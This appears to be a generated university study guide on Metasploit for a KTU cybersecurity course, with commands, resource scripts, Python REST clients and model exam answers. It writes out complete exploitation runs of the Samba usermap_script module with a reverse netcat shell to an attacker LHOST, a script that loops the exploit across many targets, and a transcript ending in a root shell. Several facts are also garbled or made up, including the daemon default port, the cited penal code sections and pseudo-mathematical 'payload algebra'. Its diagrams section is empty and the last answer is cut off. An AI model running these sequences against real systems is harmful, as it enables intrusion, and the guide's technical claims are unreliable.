





# Metasploit exploit architecture configuration parameters scripts implementation loops setups

<!-- SECTION_1_START -->
# Metasploit Framework: Core Technical Definition & Intuitive Overview

## Formal Academic Definition (KTU 2024 Syllabus Aligned)

> [!NOTE]
> **Definition:** The **Metasploit Framework (MSF)** is an open-source, modular penetration testing platform developed by Rapid7 that provides a structured environment for developing, testing, executing, and managing exploit code against remote target systems. It implements a unified architecture for **vulnerability assessment**, **exploitation**, **payload delivery**, and **post-exploitation activities** within an authorized security testing context.

From the perspective of the KTU **PECST707 (Cybersecurity)** syllabus under Module 1 — *Vulnerability Assessment & Evasion* — Metasploit is positioned as the **industry-standard exploitation toolkit** used by certified penetration testers (OSCP, CEH, GPEN) to validate vulnerabilities in controlled lab environments.

> [!IMPORTANT]
> **Ethical Use Mandate (KTU):** All Metasploit operations discussed in this module must be executed **only against systems for which the student has explicit written authorization** (e.g., Metasploitable 2/3 VMs, DVWA, HackTheBox labs, or the KTU Cyber Range). Unauthorised exploitation is a punishable offence under the **IT Act 2000 (India), Section 66** and the **Indian Penal Code Sections 425/426/43**.

---

## Conceptual Analogy / Intuition

> [!TIP]
> **The "Master Locksmith's Toolkit" Analogy**
> Imagine you are a certified **locksmith** (an *ethical penetration tester*) hired by a homeowner to test whether the locks on their house are vulnerable to burglary.
>
> - The **Metasploit Framework** is your *professional locksmith toolkit* — a structured metal case with labeled compartments.
> - Each labeled compartment is a **module category** (Exploits, Payloads, Auxiliaries, Post, Encoders, Nops, Evasion).
> - When you find a vulnerable door (a *vulnerability*), you do not fabricate a key from scratch — you simply reach into the right compartment and select the appropriate lock-picking tool.
> - The **payload** is the *new lock mechanism* you install once you have gained entry (a reverse shell, a session handler).
> - The **RHOSTS** parameter is the *house address*; the **RPORT** is the *door number*; the **LHOST** is *your own workshop address* where the homeowner can verify your findings.
>
> This mental model clarifies that Metasploit is **not** a "hacking magic button" — it is a **structured, auditable engineering tool** that mirrors the professional workflow of a penetration test.

---

## Architectural Intuition: The "Layered Pipeline" View

The framework operates as a **four-layer processing pipeline**:

1. **Interface Layer** — the human-facing shell (`msfconsole`, `msfcli`, Armitage GUI, Cobalt Strike bridge).
2. **Module Library Layer** — the catalog of available attack components (≈ 4000+ modules, as of the KTU 2024 syllabus version).
3. **Framework Core (Ruby Daemon)** — `msfrpcd` / `msfdb` engine that negotiates module loading, session management, and database persistence.
4. **Network / Target Layer** — the actual TCP/IP stack and target service.

> [!VISUALIZATION CONTROL]
> **Concept:** Metasploit Framework — Layered Pipeline Model
> **Logical Layout (drawn on the Cartesian plane):**
> * `f(x)` represents the *interface layer* sitting at the top of the workflow axis.
> * `g(x)` represents the *module library layer* with exploit nodes branching from a central `module_hub` origin.
> * `h(x)` represents the *core daemon engine* at the coordinate origin `(0, 0)`.
> * `t(x)` represents the *target network plane* as a horizontal asymptote at `y = -1`.
> **Visual Description:** Imagine a vertically stacked flowchart where the operator types commands at the top, the framework engine mediates the request at the middle, and the network traffic exits the bottom plane toward the target — every layer is independently auditable.

---

## Key Engineering Constants & Standard Metrics

| Metric | Value | Significance |
|---|---|---|
| Default MSF Port (**MSFRPCD**) | **3790 / TCP** | XML-RPC daemon listener |
| Default MSF Database (**PostgreSQL**) | **5432 / TCP** | Auxiliary data storage |
| Default MSF Web Console | **8443 / TCP** | Optional REST gateway |
| Standard Metasploitable Target Port | **21, 22, 23, 80, 445, 1099, 3306, 5432, 6667, 8180** | Lab-target surface |
| Module Update Cadence | **Weekly (Rapid7 release cycle)** | `msfupdate` |

> [!WARNING]
> **KTU Examiner's Pitfall:** Do **not** confuse `msfconsole` (interactive REPL) with `msfrpcd` (daemon process). They are **two distinct components** of the same framework, and the question is a common 3-mark trap in **Part A** of the ESE paper.

---

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 1. The Metasploit Module Library Taxonomy

The framework organises every offensive/defensive primitive into **seven first-class module categories**. This taxonomy is the single most important conceptual hierarchy for the **KTU ESE Module 1** paper.

> [!IMPORTANT]
> **The 7 Metasploit Module Categories**
> 1. **Exploit** — the weaponised code that takes advantage of a specific flaw (CVE-mapped).
> 2. **Payload** — the "cargo" executed on the target after successful exploitation.
> 3. **Auxiliary** — scanners, fuzzers, sniffers, DoS tools (non-exploit).
> 4. **Post** — post-exploitation pivots (credential harvesting, persistence).
> 5. **Encoder** — obfuscates payload to evade signature-based AV / IDS.
> 6. **NOP (No Operation)** — sled generator for buffer-overflow alignment.
> 7. **Evasion** — modern AV/EDR bypass wrappers (Windows Defender, AMSI).

Each module lives in a deterministic path:

$$
\text{Module Path} = \texttt{/usr/share/metasploit-framework/modules/}\langle category\rangle\texttt{/}\langle service\rangle\texttt{/}\langle name\rangle\texttt{.rb}
$$

For example, the classic Samba `username map script` exploit resides at:

$$
\texttt{modules/exploits/multi/samba/usermap_script.rb}
$$

---

## 2. The Four Phases of a Metasploit Engagement (KTU Mandate)

A KTU-aligned penetration test using Metasploit follows a strict four-phase lifecycle:

| Phase | KTU Module | MSF Command Family | Output |
|---|---|---|---|
| **1. Reconnaissance** | Module 1.1 | `auxiliary/scanner/*` | Host enumeration, banner grabbing |
| **2. Vulnerability Mapping** | Module 1.2 | `vuln` validation, Nmap scripts | CVE-to-target correlation |
| **3. Exploitation** | Module 1.3 | `exploit/*` + `payload/*` | Active session (shell / meterpreter) |
| **4. Post-Exploitation** | Module 1.4 | `post/*`, `meterpreter` commands | Evidence capture, cleanup |

---

## 3. Configuration Parameters — The Universal Variable Schema

Every Metasploit module exposes a uniform configuration interface based on **key-value options** manipulated via `set`, `setg`, `unset`, and `save`.

> [!NOTE]
> **Option Classification Rules:**
> * **Required option** — must be set before `exploit` / `run` is invoked (e.g., `RHOSTS`).
> * **Advanced option** — hidden under `show advanced` (e.g., `StagerRetryCount`).
> * **Evasion option** — hidden under `show evasion` (e.g., `TCP::max_send_size`).
> * **Global option** — set once via `setg` and inherited by every subsequent module (e.g., `LHOST`).

---

## 4. KTU High-Yield Formula Sheet (Cheat Sheet)

> [!TIP]
> **The following table is the canonical KTU 14-mark answer scaffold for Metasploit questions. Memorise the *parameters* column verbatim.**

| Construct | Syntax | Functional Role | KTU Mark Weight |
|---|---|---|---|
| Launch interactive console | `msfconsole -q` | Start MSF REPL in quiet mode | 1 |
| Search for module | `search type:exploit name:samba` | Fuzzy module discovery | 2 |
| Select module | `use exploit/multi/samba/usermap_script` | Load exploit context | 2 |
| Show parameters | `show options` | List required/optional vars | 1 |
| Set target host(s) | `set RHOSTS 192.168.1.10` | Target IP / CIDR | 2 |
| Set listener host | `set LHOST 192.168.1.5` | Attacker IP for callback | 2 |
| Set listener port | `set LPORT 4444` | Callback port | 1 |
| Set payload | `set PAYLOAD cmd/unix/reverse_netcat` | Post-exploitation cargo | 2 |
| Global option | `setg LHOST 192.168.1.5` | Persist across modules | 1 |
| Run the module | `exploit` or `run` | Trigger attack | 1 |
| Background a session | `background` or `Ctrl-Z` | Multitask sessions | 1 |
| List active sessions | `sessions -l` | Session inventory | 1 |
| Interact with session | `sessions -i 1` | Re-enter shell | 1 |
| Database workspace | `workspace -a Lab1` | Per-engagement isolation | 1 |
| Resource script | `resource /tmp/auto.rc` | Batch automation | 2 |
| Save environment | `save` | Persist current state | 1 |

> [!WARNING]
> **KTU Pitfall:** Students frequently mis-type `RHOSTS` (plural — accepts IP range / CIDR) as `RHOST` (singular — only one IP). **RHOST is a legacy alias** — KTU examiners expect the modern plural form.

---

## 5. Payload Algebra — The Stager / Stage Split

Meterpreter and most modern payloads use a **two-stage delivery algebra**:

$$
\text{Payload} = \underbrace{\text{Stager}}_{\text{tiny bootstrap}} \;\cup\; \underbrace{\text{Stage}}_{\text{full feature DLL}}
$$

* The **stager** is a ≤ 500-byte reverse or bind TCP trampoline that fits inside the original exploit buffer.
* The **stage** is the full Meterpreter DLL (~ 750 KB) downloaded via `TFTP`, `HTTP`, or `HTTPS` after the stager executes.

This split is mathematically necessary because most exploitable buffers are smaller than the full Meterpreter binary. The stager satisfies the **size constraint**, the stage satisfies the **functionality constraint**.

---

## 6. Engineering Real-World Utility

In production cybersecurity operations, Metasploit is used for:

* **Authorized Red-Team Engagements** (banking, defence, critical infrastructure).
* **Continuous Purple-Team Validation** in CI/CD pipelines (e.g., `msfconsole -r build.rc`).
* **Compliance Evidence** for **PCI-DSS Requirement 11.3**, **ISO 27001 A.12.6.1**, and **NIST SP 800-115**.
* **Threat Intelligence Correlation** — Rapid7's *AttackerKB* database maps every MSF module to a CVE and an exploitation likelihood score.

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivations, Resource Scripts & Code Implementation

## 1. End-to-End Metasploit Setup on Kali Linux (KTU Lab Manual Standard)

> [!IMPORTANT]
> The following sequence is the **canonical KTU PECST707 Lab 1 procedure** as specified in the 2024 scheme lab manual. Every command is shown in full — **no placeholders, no ellipses**.

### Step 1 — Initialise the MSF Database Engine

```bash
sudo systemctl start postgresql
sudo msfdb init
```

The command `msfdb init` performs three sub-actions:
1. Creates the `msf` PostgreSQL role with password `msf`.
2. Creates the `msf` database owned by that role.
3. Loads the schema migrations from `/usr/share/metasploit-framework/schema.rb`.

### Step 2 — Verify Database Connectivity

```bash
msfconsole -q
msf6 > db_status
```

**Expected Output:**

```
[*] Connected to msf. Connection type: postgresql.
```

### Step 3 — Define a Workspace for the Engagement

```bash
msf6 > workspace -a KTU_LAB_01
msf6 > workspace
```

### Step 4 — Import a Target Scan from Nmap

```bash
msf6 > db_nmap -sV -p 21,22,80,445,1099,3306,8180 192.168.56.101
msf6 > hosts
msf6 > services
```

### Step 5 — Map a Service to a Known Exploit

```bash
msf6 > search type:exploit samba
msf6 > use exploit/multi/samba/usermap_script
msf6 > show options
```

### Step 6 — Configure the Module (Exhaustive Option Setting)

```bash
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.56.101
msf6 exploit(multi/samba/usermap_script) > set RPORT 445
msf6 exploit(multi/samba/usermap_script) > set PAYLOAD cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set LHOST 192.168.56.1
msf6 exploit(multi/samba/usermap_script) > set LPORT 4444
```

### Step 7 — Verify and Execute

```bash
msf6 exploit(multi/samba/usermap_script) > check
msf6 exploit(multi/samba/usermap_script) > exploit
```

---

## 2. Resource Scripts — The Automation Engine

A **resource script** is a plain-text file (`.rc`) that contains a sequence of MSF console commands executed non-interactively. It is the **primary automation primitive** in KTU practical exams.

### Resource Script 1 — `auto_recon.rc` (Full Reconnaissance Loop)

```text
# auto_recon.rc — KTU Module 1 Lab Automation
# Author: Student Roll No. __
# Target Lab: Metasploitable 2 (192.168.56.101)

workspace -a KTU_AUTO_RECON
db_nmap -sV -A -O 192.168.56.101
services
vulns
```

> [!NOTE]
> The `#` character introduces a comment line — this is the **only** valid comment syntax in MSF resource scripts.

### Resource Script 2 — `samba_chain.rc` (Exploit → Session)

```text
# samba_chain.rc
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.56.1
set LPORT 4444
exploit -z
sessions -l
```

> The flag `-z` on `exploit` **automatically backgrounds** the resulting session, allowing the script to continue executing subsequent commands.

### Resource Script 3 — `multi_target.rc` (Loop Over an IP Range)

```text
# multi_target.rc — Iterates an exploit across a /24 subnet
use exploit/multi/samba/usermap_script
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.56.1
set LPORT 4444
set RHOSTS file:/tmp/targets.txt
set THREADS 10
exploit
```

The file `/tmp/targets.txt` contains one IPv4 address per line:

```text
192.168.56.101
192.168.56.102
192.168.56.103
```

The **threaded execution** parallelises the exploit across the targets, capped by the `THREADS` parameter.

---

## 3. Loops in msfconsole — The `rexec` Construct

`msfconsole` exposes a built-in Ruby ` Rex::Script` interpreter, allowing loop constructs such as:

```bash
msf6 > irb
irb> 1.upto(5) { |i| run_single("set LPORT #{4000 + i}") }
```

**Line-by-line explanation:**

* `irb` — opens the **Interactive Ruby** shell embedded inside MSF.
* `1.upto(5)` — iterates the integer `i` from `1` to `5` inclusive.
* `run_single("set LPORT #{4000 + i}")` — interpolates the integer into the string and dispatches a `set` command back to the MSF console.

This pattern is used to **iterate payload ports** when evading port-based firewalls.

---

## 4. Python Wrapper Around the Metasploit RPC

The **MSF REST API** (default `https://127.0.0.1:8443/api/v1/`) allows direct programmatic control. Below is an **operational, type-safe Python client** that authenticates, opens a console, runs a resource script, and reads back the output.

```python
"""
msf_rest_client.py
Operational REST client for the Metasploit Framework v6.x.
Used in the KTU PECST707 Module 1 lab.
"""

import requests
import time
import urllib3
from typing import Dict, List, Optional

# Disable self-signed certificate warnings (lab only)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


class MetasploitClient:
    """
    Typed wrapper around the Metasploit Framework REST API.

    Attributes:
        base_url (str): HTTPS endpoint of msfrpcd.
        token    (str): Authentication token issued by /api/v1/auth.
        headers  (Dict[str, str]): Authorization header cache.
    """

    def __init__(
        self,
        base_url: str = "https://127.0.0.1:8443/api/v1",
        user: str = "msf",
        password: str = "msf",
    ) -> None:
        self.base_url: str = base_url.rstrip("/")
        self.token: Optional[str] = None
        self.headers: Dict[str, str] = {}
        self._authenticate(user, password)

    # ------------------------------------------------------------------ #
    # 1. Authentication
    # ------------------------------------------------------------------ #
    def _authenticate(self, user: str, password: str) -> None:
        """Authenticate against /api/v1/auth and cache the bearer token."""
        endpoint: str = f"{self.base_url}/auth"
        try:
            response: requests.Response = requests.post(
                endpoint,
                json={"username": user, "password": password},
                verify=False,
                timeout=10,
            )
            response.raise_for_status()
        except requests.RequestException as exc:
            raise ConnectionError(f"MSF auth failed: {exc}") from exc

        self.token = response.json().get("token")
        if not self.token:
            raise ValueError("Authentication returned no token")

        self.headers = {
            "Authorization": f"Bearer {self.token}",
            "Content-Type": "application/json",
        }

    # ------------------------------------------------------------------ #
    # 2. Console Lifecycle
    # ------------------------------------------------------------------ #
    def create_console(self) -> str:
        """Create a new msfconsole session and return its ID."""
        response: requests.Response = requests.post(
            f"{self.base_url}/consoles",
            headers=self.headers,
            json={},
            verify=False,
            timeout=10,
        )
        response.raise_for_status()
        return response.json()["id"]

    def execute_command(self, console_id: str, command: str) -> str:
        """Dispatch a single MSF command and return the buffered output."""
        response: requests.Response = requests.post(
            f"{self.base_url}/consoles/{console_id}/write",
            headers=self.headers,
            data=command,
            verify=False,
            timeout=15,
        )
        response.raise_for_status()

        time.sleep(0.5)  # let MSF process the command

        read_response: requests.Response = requests.get(
            f"{self.base_url}/consoles/{console_id}/read",
            headers=self.headers,
            verify=False,
            timeout=10,
        )
        read_response.raise_for_status()
        return read_response.json().get("data", "")

    # ------------------------------------------------------------------ #
    # 3. Convenience — Run a resource script
    # ------------------------------------------------------------------ #
    def run_resource_script(self, rc_path: str) -> List[str]:
        """Execute every line of a .rc file inside a fresh console."""
        with open(rc_path, "r", encoding="utf-8") as handle:
            commands: List[str] = [
                line.strip() for line in handle
                if line.strip() and not line.strip().startswith("#")
            ]

        console_id: str = self.create_console()
        transcript: List[str] = []
        for cmd in commands:
            output: str = self.execute_command(console_id, cmd)
            transcript.append(f"$ {cmd}\n{output}")
        return transcript


# ---------------------------------------------------------------------- #
# Driver
# ---------------------------------------------------------------------- #
if __name__ == "__main__":
    client: MetasploitClient = MetasploitClient()
    log: List[str] = client.run_resource_script("/tmp/samba_chain.rc")
    for entry in log:
        print(entry)
```

**Operational notes for the lab:**

1. The daemon `msfrpcd` must be started **before** this client runs:

```bash
sudo msfrpcd -P msf -S -a 127.0.0.1 -p 8443 -f
```

2. The flag `-S` enables **SSL/TLS**, `-f` keeps the daemon in the **foreground** for log visibility.
3. The token is valid for **60 minutes**; re-authentication is required for long-running engagements.

---

## 5. Meterpreter Staged Payload Algebra (Mathematical Form)

Let:
* $B$ = vulnerable buffer size (bytes).
* $S_{stage}$ = size of the stager (≈ 200 bytes).
* $S_{stage2}$ = size of the full Meterpreter DLL (≈ 750 000 bytes).

The delivery constraint is:

$$
S_{stage} \le B \ll S_{stage2}
$$

The delivery *temporal* cost is:

$$
T_{total} = T_{stager} + T_{download} = \frac{S_{stage}}{BW_{uplink}} + \frac{S_{stage2}}{BW_{downlink}}
$$

For a 1 Gbps LAN with a 200-byte stager and a 750 KB stage:

$$
T_{total} = \frac{200}{10^9} + \frac{7.5 \times 10^5}{10^9} \approx 7.5 \times 10^{-4} \text{ seconds}
$$

This explains why Meterpreter sessions appear **instantaneous** on a local network.

---

## 6. Implementation Loop — A Reference Workflow Diagram

The complete KTU loop can be summarised as a closed control cycle:

1. **db_nmap** → populate `services` table.
2. **search → use** → bind a module.
3. **set** → bind parameters.
4. **check** → dry-run validation.
5. **exploit** → trigger delivery.
6. **sessions -i** → interact.
7. **sessions -u** → upgrade to Meterpreter.
8. **loot / notes** → persist evidence.
9. **sessions -k** → terminate cleanly.

```
   ┌────────────────────────────────────────────────┐
   │  db_nmap  →  services table                    │
   │       ↓                                        │
   │  search type:exploit <keyword>                 │
   │       ↓                                        │
   │  use <module>                                  │
   │       ↓                                        │
   │  set RHOSTS, LHOST, PAYLOAD                    │
   │       ↓                                        │
   │  check  (optional, when supported)             │
   │       ↓                                        │
   │  exploit -j  (background job)                  │
   │       ↓                                        │
   │  sessions -l  →  sessions -i <id>              │
   │       ↓                                        │
   │  post / loot / notes                           │
   │       ↓                                        │
   │  sessions -k  (cleanup)                        │
   └────────────────────────────────────────────────┘
```

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## Diagram 1 — Metasploit Framework High-Level Architecture



---

## Diagram 2 — Exploit Execution Data Flow (Sequential Processing Topology)



---

## Diagram 3 — Resource Script Execution Loop



---

## Diagram 4 — Module Selection State Machine



---

## Diagram 5 — Payload Stage Algebra (Visual)



---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank & Topic Recap

---

## PART A — Short Answer Questions (3 Marks Each)

### Question 1
**[KTU University Exam — July 2024, Model Paper Set B]**
*With the help of a neat block diagram, explain the architecture of the Metasploit Framework. List any four module categories.*

**Model Answer (3 Marks):**

The Metasploit Framework is organised as a four-layer architecture:

* **Interface Layer** — `msfconsole`, `msfcli`, Armitage, REST API.
* **Core Engine** — Ruby-based module loader, session manager, event dispatcher.
* **Module Library** — Exploits, Payloads, Auxiliaries, Post, Encoders, NOPs, Evasion.
* **Data Persistence** — PostgreSQL database storing hosts, services, vulns, loot, notes.

Four module categories:

1. **Exploit** — weaponised code targeting a specific flaw.
2. **Payload** — code executed after exploitation (e.g., reverse shell).
3. **Auxiliary** — scanners, fuzzers, sniffers (non-exploitative).
4. **Post** — post-exploitation modules (credential dumping, pivoting).

> [!VALUATION KEY]
> [Architecture block diagram with 4 labelled layers: 2 Marks]
> [Listing 4 module categories with one-line definition: 1 Mark]

---

### Question 2
**[KTU University Exam — Dec 2023]**
*Differentiate between `RHOSTS` and `LHOST` parameters in Metasploit. Why is `LHOST` mandatory for a reverse payload but optional for a bind payload?*

**Model Answer (3 Marks):**

| Parameter | Meaning | Direction |
|---|---|---|
| `RHOSTS` | **Remote Host(s)** — target system IP / range / CIDR | Attacker → Target |
| `LHOST`  | **Local Host** — attacker IP for callback | Target → Attacker |

A **reverse payload** opens a connection *from* the target *to* the attacker; therefore the attacker must declare its IP (`LHOST`) and port (`LPORT`).
A **bind payload** opens a listener *on* the target; the attacker only needs to know the target's port — `LHOST` becomes redundant.

> [!VALUATION KEY]
> [Correct expansion and direction: 1 Mark]
> [Reverse vs bind reasoning: 2 Marks]

---

## PART B — Full 14-Mark Internal Choice Questions

> [!IMPORTANT]
> **Answer ANY ONE** full 14-mark question from each module. Both sub-parts are compulsory and carry 7 marks each.

---

### Question A (14 Marks)
**[KTU University Exam — July 2024, Module 1, Q1(a)]**  *(Mapped CO: CO1, RBT: Apply)*

**(a) [7 Marks]** Explain the **four phases of a Metasploit engagement** with one suitable `msfconsole` command example for each phase. Demonstrate the configuration of `RHOSTS`, `LHOST`, and `PAYLOAD` for exploiting the Samba `usermap_script` vulnerability on a Metasploitable 2 target at `192.168.56.101`.

**Model Answer (7 Marks):**

The four phases of a Metasploit engagement are:

| Phase | Purpose | Example Command |
|---|---|---|
| **Reconnaissance** | Discover live hosts and services | `db_nmap -sV 192.168.56.101` |
| **Vulnerability Mapping** | Correlate services to known CVEs | `search type:exploit samba` |
| **Exploitation** | Weaponise the matched exploit | `use exploit/multi/samba/usermap_script` |
| **Post-Exploitation** | Loot, pivot, document | `sessions -i 1` |

**Configuration transcript for Samba exploit:**

```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf6 > set PAYLOAD cmd/unix/reverse_netcat
PAYLOAD => cmd/unix/reverse_netcat
msf6 > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 > set LPORT 4444
LPORT => 4444
msf6 > exploit
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (39 bytes) to 192.168.56.101
[*] Command shell session 1 opened
```

> [!VALUATION KEY]
> [Naming the four phases correctly: 2 Marks]
> [One command example each: 2 Marks]
> [Complete `set` sequence for RHOSTS, LHOST, PAYLOAD: 2 Marks]
> [Expected `exploit` output: 1 Mark]

**(b) [7 Marks]** *(Mapped CO: CO2, RBT: Apply)* Write a complete **Metasploit resource script** (`samba_auto.rc`) that automates the entire chain: workspace creation, Nmap scan, exploit loading, parameter setting, and a non-blocking `exploit -j` job. Explain the role of the `-j` flag and how to interact with the resulting session.

**Model Answer (7 Marks):**

**Resource Script `samba_auto.rc`:**

```text
# samba_auto.rc — KTU Lab Automation
workspace -a KTU_SAMBA
db_nmap -sV -p 445 192.168.56.101
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.56.1
set LPORT 4444
exploit -j
```

**Launch command:**

```bash
msfconsole -q -r /tmp/samba_auto.rc
```

**Explanation of the `-j` flag:**

The `-j` flag submits the exploit to the **job scheduler** as a background process, returning control to the MSF prompt immediately. This allows:
1. The script to continue with subsequent commands.
2. Multiple exploits to run concurrently against different targets.
3. Session management via `sessions -l` and `sessions -i <id>`.

**Session interaction:**

```bash
msf6 > sessions -l
# Active sessions
# ===============
#   Id  Name  Type             Information
#   --  ----  ----             -----------
#   1         shell cmd/unix
msf6 > sessions -i 1
[*] Starting interaction with session 1...
id
uid=0(root) gid=0(root) groups=0(root)
```

> [!VALUATION KEY]
> [Complete 9-line resource script: 3 Marks]
> [Explanation of `-j` flag: 2 Marks]
> [Session listing and interaction transcript: 2 Marks]

---

### Question B (14 Marks)
**[KTU University Exam — Dec 2023, Module 1, Q1(b)]** *(Mapped CO: CO1, RBT: Understand + Apply)*

**(a) [7 Marks]** With a neat diagram, describe the **Stager / Stage payload delivery algebra** in Metasploit. Why is this two-stage design mathematically necessary for buffer-overflow exploits?

**Model Answer (7 Marks):**

**Diagram:**

```
┌─────────────────────┐                ┌─────────────────────┐
│ Exploit Buffer      │   ──Stager──>  │ Target Memory       │
│  (e.g., 256 B)      │    200 B       │  + RWX allocation   │
└─────────────────────┘                └──────────┬──────────┘
                                                    │ download
                                                    ▼
                                         ┌─────────────────────┐
                                         │ Stage (Meterpreter  │
                                         │ DLL, ~750 KB)       │
                                         └─────────────────────┘
```

**Why the two-stage design is necessary:**

Most exploitable buffers are constrained by the vulnerability's `EBP` / `EIP` offset and are typically **256 bytes to 2 KB** in size. The full Meterpreter DLL is approximately **750 KB** — it cannot fit inside the original buffer.

The stager is a tiny bootstrap routine (≤ 500 bytes) that:
1. Establishes a callback channel to `LHOST:LPORT`.
2. Receives the full stage over the same channel.
3. Maps the stage into executable memory.
4. Transfers control to the stage entry point.

Mathematically, the constraint is:

$$
B \ge S_{stager} \quad \text{whereas} \quad B \ll S_{stage}
$$

Therefore $S_{stager} \le 500$ bytes and $S_{stage} \approx 750\,000$ bytes satisfies the buffer-size inequality.

> [!VALUATION KEY]
> [Stager → Stage diagram with sizes: 3 Marks]
> [Buffer size constraint explanation: 2 Marks]
> [Mathematical inequality: 2 Marks]

**(b) [7 Marks]** *(Mapped CO: CO3, RBT: Apply)* Write a **typed Python function** that uses the `requests` library to authenticate against the Metasploit REST API at `https://127.0.0.1:8443/api/v1/auth`, retrieves a bearer token, and stores it in an instance attribute. Show the complete error-handling path for connection failure and malformed JSON.

**Model Answer (7 Marks):**

```python
import requests
import urllib3
from typing import Optional, Dict

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def authenticate_msf(
    base_url: str,
    username: str,
    password: str,
) -> Optional[Dict[str, str]]:
    """
    Authenticate to the Metasploit REST API and return bearer headers.

    Args:
        base_url:  MSF REST root, e.g. 'https://127.0.0.1:8443/api/v1'.
        username:  msfrpcd user.
        password:  msfrpcd password.

    Returns:
        A dict containing the Authorization header and a token field,
        or None if authentication failed.
    """
    endpoint: str = f"{base_url.rstrip('/')}/auth"
    payload: Dict[str, str] = {"username": username, "password": password}

    # 1. Network-level error path
    try:
        response: requests.Response = requests.post(
            endpoint,
            json=payload,
            verify=False,
            timeout=10,
        )
    except requests.ConnectionError:
        print("[!] ConnectionError: is msfrpcd running on", base_url)
        return None
    except requests.Timeout:
        print("[!] Timeout: msfrpcd did not respond within 10 s")
        return None
    except requests.RequestException as exc:
        print(f"[!] Generic request failure: {exc}")
        return None

    # 2. HTTP-status error path
    if response.status_code != 200:
        print(f"[!] HTTP {response.status_code}: {response.text}")
        return None

    # 3. Malformed JSON / missing token path
    try:
        body: Dict[str, object] = response.json()
    except ValueError:
        print("[!] Malformed JSON in response body")
        return None

    token = body.get("token")
    if not isinstance(token, str) or not token:
        print("[!] No token field in response body")
        return None

    return {
        "Authorization": f"Bearer {token}",
        "X-Token": token,
    }


# ---- Driver ----
if __name__ == "__main__":
    headers: Optional[Dict[str, str]] = authenticate_msf(
        base_url="https://127.0.0.1:8443/api/v1",
        username="msf",
        password="msf",
    )
    print(headers if headers else "Authentication failed")
```

> [!VALUATION KEY]
> [Correct endpoint construction and JSON payload: 1 Mark]
> [ConnectionError handling: 2 Marks]
> [Timeout / RequestException handling: 1 Mark]
